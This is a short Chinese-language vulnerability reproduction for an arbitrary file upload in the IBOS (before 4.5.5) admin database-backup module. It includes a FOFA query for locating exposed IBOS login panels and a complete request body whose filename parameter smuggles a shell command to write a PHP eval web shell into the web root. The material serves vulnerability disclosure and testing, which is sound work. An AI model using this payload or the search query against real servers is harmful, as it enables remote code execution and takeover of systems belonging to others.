 # IBOS-数据库模块-任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```

![](IBOS-数据库模块-任意文件上传漏洞.assets/1627363058203201.jpg)

找到数据库备份模块

![](IBOS-数据库模块-任意文件上传漏洞.assets/1627363058549375.jpg)

提交并抓包

![](IBOS-数据库模块-任意文件上传漏洞.assets/16273630588935292.jpg)

修改filename参数发送包会上传test.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```

![](IBOS-数据库模块-任意文件上传漏洞.assets/1627363059211831.jpg)
